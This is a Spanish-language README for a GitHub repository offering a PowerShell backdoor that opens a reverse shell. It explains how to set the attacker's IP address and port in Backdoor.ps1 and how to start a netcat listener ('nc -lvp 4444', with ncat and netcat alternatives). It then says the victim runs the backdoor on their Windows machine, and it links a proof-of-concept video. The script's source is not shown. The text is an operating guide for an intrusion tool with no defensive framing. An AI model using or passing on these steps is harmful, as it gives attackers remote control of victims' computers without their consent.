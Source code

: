 # powershell-backdoor
Backdoor en Powershell para obtener una reverse shell

Uso:
Primero que nada antes de ejecutar el backdoor debemos de modificar ciertos parametros en el archivo Backdoor.ps1, las variables $address y $port hay que modificarlas, en $address hay que colocar la IP de la maquina atacante, y en $port hay que colocar el puerto por el cual se hara la conexion, y por el que el atacante estara a la escucha.

$address = 'LA DIRECCION IP DEL ATACANTE'

$port = 'EL PUERTO POR EL QUE SE VA A REALIZAR LA CONEXION'

Luego el atacante va a estar a la escucha de una conexion por medio de netcat
nc -lvp "el puerto que se haya colocado"
Ejemplo:
nc -lvp 4444

O si no funciona puedes probar alguno de estos dos:
ncat -lvp 4444
netcat -lvp 4444

Y la victima va a ejecutar el backdoor en su maquina windows

PoC Backdoor Powershell:
https://user-images.githubusercontent.com/64616891/128221817-3fb9306b-8056-4839-b087-a22ff2e1d8e9.mp4

